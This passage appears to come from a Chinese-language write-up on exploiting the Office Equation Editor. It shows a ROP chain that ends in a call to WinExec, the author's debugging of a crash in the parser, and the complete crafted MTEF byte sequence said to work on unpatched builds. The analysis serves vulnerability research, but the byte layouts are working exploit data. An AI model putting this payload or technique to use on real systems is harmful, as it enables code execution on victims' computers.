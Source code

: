 ```

28 5b 45 00 // a read_write addr

b6 0e 41 00 // add eax, ebp; ret 2

b6 0e 41 00 // add eax, ebp; ret 2

00 00       // pad for adjust stack by 2 bytes

4b ed 40 00 // push eax; call sub_30C00(which call WinExec)

00 00       // pad for align by 4 bytes
```

将构造好的数据替换原来的数据，调试运行，却发现公式编辑器直接退出了，仔细排查后发现是ret前的sub_437c9d函数中调用sub_43a78f导致的(图19)，应该是case语句没有取到合适的值，导致虚函数调用失败，从而导致进程退出。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t019ec949185c1c0122.png)

图19

由于这两个函数我前面都分析过(图8和图17)，所以这里直接让下一个字节等于0就行，这样就会直接break，不会继续去解析tag。

最终，在不打11月补丁的版本上，我构造的全部数据如下：

```
03 01 01 03 0A // MTEF头部

0A // 初始SIZE

09 // tag

64 // 0n100

22 // lsize

1c // dsize-high-byte

4c // dsize-low-byte

44 // 确保进入case 4

66 // 填充用，随意

77 // 填充用，随意

09 // 填充用，随意

05 // 填充用，随意

AA // 填充用，随意

55 // 确保进入第2个case 4

10 // sub_443e34内读入的第1个字节

11 // sub_443e34内读入的第2个字节

12 // sub_443e34内读入的第3个字节

1c // 等待计算以决定拷贝大小的长度1

4c // 等待计算以决定拷贝大小的长度2

```